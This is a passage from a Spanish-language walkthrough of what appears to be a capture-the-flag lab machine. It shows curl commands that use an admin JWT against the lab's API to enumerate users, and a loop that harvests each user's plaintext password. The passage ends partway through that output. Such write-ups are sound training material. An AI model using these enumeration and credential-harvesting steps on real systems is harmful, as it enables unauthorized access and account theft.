 ```shell
Forbidden -> admin
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzIyODg0MDU2LCJleHAiOjE3MjI5NzA0NTZ9.FyEpFhkz8V0rIXmjcegdmvZ2sXIdPO-OMdVa6OD0C_Y"} -> administrator
```

Ahora podemos ver mas usuarios...
```shell
$ curl -s -X GET http://10.129.96.55:3000/users -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzIyODg0MDU2LCJleHAiOjE3MjI5NzA0NTZ9.FyEpFhkz8V0rIXmjcegdmvZ2sXIdPO-OMdVa6OD0C_Y' | jq
[
  {
    "ID": "1",
    "name": "Admin",
    "Role": "Superuser"
  },
  {
    "ID": "2",
    "name": "Derry",
    "Role": "Web Admin"
  },
  {
    "ID": "3",
    "name": "Yuri",
    "Role": "Beta Tester"
  },
  {
    "ID": "4",
    "name": "Dory",
    "Role": "Supporter"
  }
]

```

Otro comportamiento extraño es que podemos indicar un usuario, esto es común, pero se nos devuelve una contraseña...
```shell
$ curl -s -X GET http://10.129.96.55:3000/users/dory -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzIyODg0MDU2LCJleHAiOjE3MjI5NzA0NTZ9.FyEpFhkz8V0rIXmjcegdmvZ2sXIdPO-OMdVa6OD0C_Y' | jq
{
  "name": "Dory",
  "password": "5y:!xa=ybfe)/QD"
}

```

Vamos a recopilar estas credenciales...
```shell
$ for user in $(cat users.txt); do curl -s -X GET http://10.129.96.55:3000/users/$user -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzIyODg0MDU2LCJleHAiOjE3MjI5NzA0NTZ9.FyEpFhkz8V0rIXmjcegdmvZ2sXIdPO-OMdVa6OD0C_Y' | jq; done
{
  "name": "Admin",
  "password": "WX5b7)>/rp$U)FW"
}
{
  "name": "Derry",
  "password": "rZ86wwLvx7jUxtch"
}
{
  "name": "Yuri",
  "password": "bet@tester87"
```